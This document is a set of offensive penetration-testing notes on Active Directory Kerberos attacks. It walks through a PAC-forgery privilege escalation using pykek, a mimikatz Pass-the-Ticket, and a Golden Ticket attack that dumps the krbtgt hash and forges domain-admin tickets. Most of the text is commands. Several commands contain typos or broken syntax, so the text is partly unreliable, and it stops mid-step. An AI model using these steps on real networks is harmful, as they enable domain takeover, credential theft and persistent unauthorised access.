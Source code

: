## Active Directory

### Kerberos

{% tabs %}
{% tab title="PAC Vuln" %}
Privilege Attribute Certificate vulnerability

* With basic information on a domain user you can move to a domain admin by editing the PAC
  * \#git clone [https://github.com/bidord/pykek](https://github.com/bidord/pykek) /opt/pykek
  * \# apt-get install krb5-user
  * \# apt-get install rdate
  * \# rdate -n \[domain]
  * \# echo \[attacker IP]\[domain controller hostname] >> /etc/host
* Next we need 4 pieces of information
  * \-u username@domain (user@domain1)
  * \-d domain controller \[domain.controller.test]
  * \-p password
  * \-s SID (get SID with command “whoami /user”
* Now that we have all the pieces
  * \#cd /opt/pykek
  * \#python ms12-068.py -d domain.controller.test -u user@domain1 -s \[SID] -p \[password
* We have created a credential cache ticket and now we copy it where it needs to go
  * \#cp TGT\_user@domain1.ccache /tmp/krb5cc\_0
* Now you have access with
  * \#smclient -k -W domain1 //domain.controller.test/c$ -k
{% endtab %}

{% tab title="Pass-The-Ticket" %}
* Kerberos Pass-The-Ticket
  * Start with writing all tickets to the folder from wihch it was executed.
    * \>privilege :: debug
    * \>sekurlsa::tickets /export
  * Now we import one of those as our tikets and drop back into mimikatz
    * \>kerberos::ptt \[0,ab9bf] \[ticket info]
{% endtab %}

{% tab title="Golden Ticket" %}
* Kerberos Golden Ticket attack
  * Creating your own tickets to Auth to any server
  * You can take the old krbtgt hash from the previous hash dump and promote yourself back to Domain admin, all with an unprivileged account
  * A few notes on krbtgt:
    * Do not reset the system generated password, it could break the whole domain
    * Even if you change every password for every domain admin, you can still become a DA
    * You can create Users and Groups that do not exist within the Golden ticket
  * What you need
    * Domain - on victim host type: whoami
    * Domain Admin user - On victim host type: net local group administrators /DOMAIN
    * Domain SID - whoami /user chop off the last dash and 4 digits
    * krbtgt - From previous hashdump, use the second half of the hash/the NTLM hash
  * Process
    * Run Smbexec, choose hashdump, and dump the domain controller
    * A log file will be created with the domain hashes. The one we need is the second part of the krbtgt hash
    * Return to original shell
    * Drop into mimikatz 2.0
      * use kiwi
    * Create golden ticket
      * \>golden\_ticket\_create -u \[domain admin suername] -d \[domain] -k \[krbtgt hash] -s \[Domain SID] -t \[location to Drop Golden Ticket]
  * Using the Golden ticket
    * Shell access with limited access
      * \>session -i